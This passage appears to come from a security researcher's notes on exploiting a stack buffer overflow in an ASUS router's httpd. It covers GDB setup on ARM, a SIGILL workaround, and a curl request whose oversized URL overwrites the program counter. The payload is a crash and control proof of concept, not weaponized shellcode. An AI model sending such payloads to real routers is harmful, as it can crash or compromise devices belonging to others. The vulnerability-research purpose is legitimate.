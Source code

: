 ```python
```

### Debugging In GDB

Make sure that SSH has been enabled in the router so that the process of transferring ARM statically-linked GDB to the router can be made easier. The statically linked GDB was obtained from [here](https://github.com/therealsaumil/static-arm-bins/blob/master/gdb-arm-static-7.11). Make sure that you get the correct architecture for the router, which is 32bit.

Attach GDB to the `httpd` PID and finally run the curl command again. This time, the SIGSEGV should occur:

![[Pasted image 20241113015010.png]]

### Fixing SIGILL

When attempting to re-run the binary, `SIGILL` exception would be returned.

![[Pasted image 20241113015035.png]]

According to this [StackOverflow post](https://stackoverflow.com/questions/16393414/how-to-get-rid-of-openssl-error), `OPENSSL_cpuid_setup()` assumes that it can trap SIGILL and continue if instruction is unable to be performed. Therefore by setting environment variable `OPENSSL_armcap = 0` should mitigate the problem.

```
(gdb) set env OPENSSL_armcap=0
(gdb) run
```

### Controlling The Program Counter (PC)

Approach:

- Breakpoint at the start of the while loop
- Set a conditional breakpoint on the 0x100th iteration of `*((_BYTE *)&path_string + i++) = *((_WORD *)*_ctype_tolower_loc() + path_1);`
- Observe the stack
- Set another conditional breakpoint after right before overwrite the program counter (pc)
- Edit the payload to have 0x100 As, 0x114 Bs and 4 Cs in the url as shown in the following
- Send this header to our router

```shell
curl 'http://router.asus.com/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'\
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'\
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'\
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'\
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'\
'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'\
'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'\
'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'\
'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCC' \
-H 'Host: router.asus.com' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
-H 'Accept-Language: en-US,en;q=0.5' --compressed \
-H 'Cookie: clickedItem_tab=0' \
-H 'Connection: keep-alive' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'Cache-Control: max-age=0'
```
